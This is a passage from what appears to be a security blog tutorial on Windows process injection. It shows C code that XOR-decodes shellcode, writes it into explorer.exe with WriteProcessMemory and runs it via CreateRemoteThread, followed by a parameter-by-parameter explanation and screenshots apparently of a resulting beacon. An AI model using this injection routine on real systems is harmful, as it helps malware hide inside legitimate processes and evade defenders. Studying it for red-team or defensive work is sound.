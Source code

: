             printf(&quot;[+] Allocated based address is 0x%x\n&quot;, base_address);
            
            				// Data chars counter
    				int i;
    
    				// Base address counter
    				int n = 0;
    
    
    				for(i = 0; i&lt;=sizeof(data); i++){
    
    					// Decode shellcode opcode
    					char DecodedOpCode = data[i] ^ 0x01;
    
    					// Write the decoded bytes in memory address
    					if(WriteProcessMemory(process, base_address+n, &amp;DecodedOpCode, 1, NULL)){
    
    
    						printf(&quot;[+] Byte wrote sucessfully!\n&quot;);
    
    						// Increase memory address by 1
    						n++;
    					}
    				}
    				
    				// Run our code as RemoteThread
    				CreateRemoteThread(process, NULL, 100,(LPTHREAD_START_ROUTINE)base_address, NULL, 0, 0x5151);
    
            
    
    	}else{
    		printf(&quot;[-] Unable to allocate memory ...\n&quot;);
    	}
        
      }else{
        printf(&quot;[-] Unable to retrieve process handle\n&quot;);
      }
    
    }
    

As we can see in line #55, we used CreateRemoteThread() function to execute
our shellcode as a thread on explorer.exe, and CreateRemoteThread() took the
following parameters:

  * process: Which is the handle that we retrieved earlier using OpenProcess()
  * Null: To get default security descriptor; [check this](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) for more info.
  * 100: The initial size of the stack.
  * base_address: Which is the first opcode of our shellcode.
  * Null: No parameters passed to the thread.
  * 0: The thread runs immediately after creation.
  * 0x5151: Thread ID

And after running the code, we will get the following:

![](https://shells.systems/wp-content/uploads/2020/07/Shellcode-Wrote-
CreateRemoteThread.png) ![](https://shells.systems/wp-
content/uploads/2020/07/Final-Beacon.png)
